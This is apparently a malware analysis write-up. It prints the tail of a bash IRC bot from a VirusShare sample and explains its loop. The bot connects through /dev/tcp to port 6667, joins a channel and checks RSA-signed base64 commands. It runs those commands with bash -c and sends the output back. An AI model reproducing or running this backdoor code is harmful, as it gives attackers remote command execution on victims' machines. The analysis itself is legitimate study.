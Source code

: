 ```
			if [[ ! "$?" -eq 0 ]] ; then
				break
			fi
			sleep 1
			eval 'printf "JOIN #biret\r\n" >&3;'
			if [[ ! "$?" -eq 0 ]] ; then
				break
			fi
		elif [[ "$msg_in" =~ "PRIVMSG" ]] ; then
			privmsg_h=$(echo $msg_in| cut -d':' -f 3)
			privmsg_data=$(echo $msg_in| cut -d':' -f 4)
			privmsg_nick=$(echo $msg_in| cut -d':' -f 2 | cut -d'!' -f 1)

			hash=`echo $privmsg_data | base64 -d -i | md5sum | awk -F' ' '{print $1}'`
			sign=`echo $privmsg_h | base64 -d -i | openssl rsautl -verify -inkey /tmp/public.pem -pubin`

			if [[ "$sign" == "$hash" ]] ; then
				CMD=`echo $privmsg_data | base64 -d -i`
				RES=`bash -c "$CMD" | base64 -w 0`
				eval 'printf "PRIVMSG $privmsg_nick :$RES\r\n" >&3;'
				if [[ ! "$?" -eq 0 ]] ; then
					break
				fi
			fi
		fi
	done
done
EOFMARKER
```
This code first get the MD5 check sum of the `uname -a` output.
Then set `NICK` as `a` plus the last 8 character of the md5. 
The it gets in an infinite loop.The loop:
1. choose a host randomly
2. `3<>/dev/tcp/$svr/6667` opens a file (`/dev/tcp/$svr/6667` in this case) on the file descriptor (`3` in this case) in read-write mode. `exec` will execute a file (relates to `/dev/tcp/$svr/6667` in this case)
3. print `$NICK`, and some other info. Then go into *main loop*
4. It reads from `/dev/tcp/$svr/6667`
5. This main loop looks like a server, receiving message from and send to `/dev/tcp/$svr/6667`. 
6. This server tries to verify the openssl key to ensure its **integrity**. 
7. If it matches, it decodes the message to get a command. Then use `bash -c` to execute that command, whose output is sent to `base64 -w 0`.
8. The decoded content is printed out to the remote side through `/dev/tcp/$svr/6667`


----------------------------------------

# VirusShare_a9d0748af3f639ef480a326a562cb479.sh 
